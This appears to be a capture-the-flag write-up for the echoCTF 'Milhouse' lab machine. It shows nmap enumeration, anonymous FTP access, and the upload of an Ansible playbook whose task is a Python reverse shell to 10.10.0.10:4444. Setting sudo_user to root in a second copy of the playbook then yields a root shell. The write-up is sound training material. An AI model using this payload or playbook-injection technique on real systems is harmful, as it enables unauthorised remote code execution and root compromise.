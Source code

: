 ```yaml
---
layout: post
title: Milhouse
feature-img: "assets/img/portfolio/martin.png"
img: "assets/img/portfolio/martin.png"
date: 15 jul 2021
tags: [Ftp, playbooks]
---
```




[martin](https://echoctf.red/target/8)


machine description:

Martin is an academically brilliant teacher's pet. However, for all his brilliance, the simplest tricks are the ones that get him.
*Pick me, teacher, I'm ever so smart!*

---

### Enumartion


```
nmap -sC -sV -p- 10.0.30.0 -vv

21/tcp open  ftp     syn-ack ProFTPD 1.3.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--   1 ftp      ftp             0 Oct 23  2020 ETSCTF_a0f1eb9169bf9cfaef4f16af15160982
| drwxr-xr-x   2 ftp      ftp          4096 Oct 23  2020 playbooks
|_-rw-rw-r--   1 ftp      ftp           442 Oct 23  2020 welcome.msg
Service Info: OS: Unix



```

### Enumartion-FTP

ProFTPD 1.3.5

we have 2 files and one folder: 

1. flag
2. playbooks(folder contain facts.yml)
3. welcome.msg

using anonymus account, i have susccess to login. 
got banner massage:

```
230-Welcome, archive user anonymous@10.10.0.10 !
230-
230-The local time is: Tue Aug 02 06:52:02 2022
230-
230-This is an administrative FTP server for unattended ansible deployment.
230-
230-NOTICE: Make sure your playbooks are syntactically correct and able to run
230-before uploading.
230-
230-Playbooks run every 60 seconds.
230-
230-Don't replace facts.yml -- the system needs this file.
230-
230-Playbooks that are executed are removed from the folder
230-
230---------------------------------------------------------------------------
230 Anonymous access granted, restrictions apply

```

from hints i understand that the key is playbook file, and it runs every 60 sec. 

checking files: 

welcome.msg  -- its the banner that we see when we logged in. 
facts.yml  -- seems to be ftp configration

and we got shell:

```
└─$ nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.0.30.0 38742
/bin/sh: 0: can't access tty; job control turned off
$ 

/bin/sh: 0: can't access tty; job control turned off
$ id
uid=106(ftp) gid=65534(nogroup) groups=65534(nogroup)
$ whoami
ftp


```


### RCE 

google search gave a lot of RCE exploits. 
i used [exploit_db](https://www.exploit-db.com/exploits/49908)
downloading: curl https://www.exploit-db.com/raw/49908 -o exp.py

but it didnt worked, same for others. 
google for - [ansible playbooks](https://www.tommacdonald.co.uk/backdooring-ansible-playbooks-for-persistence/)


```
Create an AnsbilePOC.yml file in /etc/ansible/ containing:

- hosts: localhost
  sudo: true
  sudo_user: ftp
  connection: local
  gather_facts: false
  remote_user: root

  tasks:
  - name: open python shell .
    command: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

```

uploading the file to ftp/playbooks

```
ftp> put exp.yml 
local: exp.yml remote: exp.yml
200 PORT command successful
150 Opening BINARY mode data connection for exp.yml
226 Transfer complete
ftp> dir
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp             0 Aug  2 07:09 exp.yml
-rw-rw-r--   1 ftp      ftp           308 Oct 23  2020 facts.yml
226 Transfer complete
ftp> 
```

after uploading the exp.yml file to playbook folder, i opened nc for connection.

nc -lnvp 4444
Listening on 0.0.0.0 4444

and wating as discribed:
1. Playbooks run every 60 seconds.
2. Playbooks that are executed are removed from the folder


```
ssh ETSCTF@10.0.200.29                                                                                                                   130 ⨯
ETSCTF@10.0.200.29's password: 
Linux milhouse.echocity-f.com 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
ETSCTF@milhouse:~$ 
ETSCTF@milhouse:~$ 

```


### Privilege escalation

sudo -l - need pass. 

ps -aux | root


```
root         1  0.0  0.0  20068  2920 pts/0    Ss+  06:45   0:00 /bin/bash /entrypoint.sh tail -f /var/log/proftpd/proftpd.log /var/log/crontab.log
root        25  0.0  0.0  25908  2244 ?        Ss   06:45   0:00 /usr/sbin/cron
root        73  0.0  0.0   4276   740 pts/0    S+   06:45   0:00 tail -f /var/log/proftpd/proftpd.log /var/log/crontab.log
root      1632  0.0  0.5  82328 21904 ?        S    07:22   0:00 /usr/bin/python /usr/bin/ansible-playbook /srv/ftp/playbooks/exp.yml
root      1642  0.0  0.0   4340   760 ?        S    07:22   0:00 /bin/sh -c /bin/sh -c 'sudo -k && sudo -H -S -p "[sudo via ansible, key=veoecoxthqjsjvocottvmaapnhrglaxj] password: " -u ftp /bin/sh -c '"'"'echo SUDO-SUCCESS-veoecoxthqjsjvocottvmaapnhrglaxj; LANG=C LC_CTYPE=C /usr/bin/python /tmp/ansible-tmp-1659424921.33-263980486539506/command'"'"''
root      1643  0.0  0.0   4340   760 ?        S    07:22   0:00 /bin/sh -c sudo -k && sudo -H -S -p "[sudo via ansible, key=veoecoxthqjsjvocottvmaapnhrglaxj] password: " -u ftp /bin/sh -c 'echo SUDO-SUCCESS-veoecoxthqjsjvocottvmaapnhrglaxj; LANG=C LC_CTYPE=C /usr/bin/python /tmp/ansible-tmp-1659424921.33-263980486539506/command'
root      1645  0.0  0.0  38972  3048 ?        S    07:22   0:00 sudo -H -S -p [sudo via ansible, key=veoecoxthqjsjvocottvmaapnhrglaxj] password:  -u ftp /bin/sh -c echo SUDO-SUCCESS-veoecoxthqjsjvocottvmaapnhrglaxj; LANG=C LC_CTYPE=C /usr/bin/python /tmp/ansible-tmp-1659424921.33-263980486539506/command
```

ss -ant 

```
State      Recv-Q Send-Q        Local Address:Port          Peer Address:Port 
LISTEN     0      128              127.0.0.11:33575                    *:*     
ESTAB      0      10                10.0.30.0:38952           10.10.0.10:4444  
LISTEN     0      32                       :::21                      :::*     
ESTAB      0      0          ::ffff:10.0.30.0:21       ::ffff:10.10.0.10:54170 
```

after some rabbit holes i foucsed on the yml file again and noticed somthing importent:

*sudo_user: ftp*
we are runnig as ftp user, i tried to change to root user:

```
- hosts: localhost
  sudo: true
  sudo_user: root
  connection: local
  gather_facts: false
  remote_user: root

  tasks:
  - name: open python shell .
    command: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.0.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

upload the file and opend nc:

```
nc -lnvp 4444
Listening on 0.0.0.0 4444
Connection received on 10.0.30.0 39288
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 

```
